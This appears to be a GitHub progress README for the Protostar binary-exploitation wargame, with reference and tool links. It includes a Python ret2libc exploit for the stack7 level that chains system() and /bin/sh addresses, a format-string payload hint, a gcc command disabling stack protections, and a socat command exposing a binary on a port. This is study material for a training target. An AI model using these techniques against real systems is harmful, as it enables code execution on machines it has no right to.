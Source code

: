 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [ ] format3
- [ ] format4

## Heap
- [ ] heap0
- [ ] heap1
- [ ] heap2
- [ ] heap3

## Network

- [ ] net0
- [ ] net1
- [ ] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget

